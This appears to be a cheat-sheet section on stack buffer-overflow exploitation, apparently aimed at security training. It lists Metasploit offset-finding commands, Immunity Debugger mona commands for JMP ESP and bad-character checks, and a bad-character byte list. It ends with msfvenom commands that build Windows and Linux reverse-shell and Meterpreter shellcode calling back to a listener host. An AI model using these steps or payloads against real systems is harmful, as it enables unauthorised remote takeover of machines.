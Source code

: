 
## Traditional Commands and Tools

### 🔧 Metasploit Pattern Generation
```bash
# Generate cyclic pattern
msf-pattern_create -l 2000

# Find offset from EIP value
msf-pattern_offset -l 2000 -q 316A4230
```

### 🐛 Immunity Debugger with Mona
```bash
# Connect application to debugger first
# Then use mona commands:
!mona modules                           # List loaded modules
!mona find -s "\xff\xe4" -m <dll_name> # Find JMP ESP instructions
!mona bytearray                         # Generate bad character array
!mona compare -f C:\badchars.bin -a ESP # Compare bad characters
```

### 🔍 Bad Characters Reference
**Note**: \x00 is a well-known bad character (null terminator) and is excluded by default.

Complete character set for testing:
```
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10
\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20
\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30
\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40
\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50
\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60
\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70
\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80
\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90
\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0
\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0
\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0
\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0
\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0
\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0
\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```

### 🐚 Shellcode Generation
```bash
# Generate Windows reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c -a x86 -b '\x00\x0a\x0d'

# Generate Linux reverse shell  
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c -b '\x00\x0a\x0d'

# Generate Windows meterpreter (as in original)
msfvenom -p windows/meterpreter_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c -a x86 -b '\x00'
```
